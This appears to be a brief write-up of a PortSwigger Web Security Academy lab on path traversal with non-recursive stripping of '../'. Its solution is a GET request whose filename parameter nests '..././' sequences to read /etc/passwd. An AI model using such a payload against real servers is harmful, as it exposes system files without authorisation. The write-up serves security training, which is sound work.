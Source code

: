 
# 14 - File path traversal, traversal sequences stripped non-recursively

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.


---------------------------------------------

References:

- https://portswigger.net/kb/issues/00100300_file-path-traversal

- https://portswigger.net/web-security/file-path-traversal

---------------------------------------------

Generated link: https://0a2a0030049b8f43822a9e64007d00ba.web-security-academy.net/


When accessing Home or a post we have GET requests like this one:



![img](images/File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/1.png)




![img](images/File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/2.png)

```
GET /image?filename=..././..././..././..././..././etc/passwd HTTP/2
```



![img](images/File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/3.png)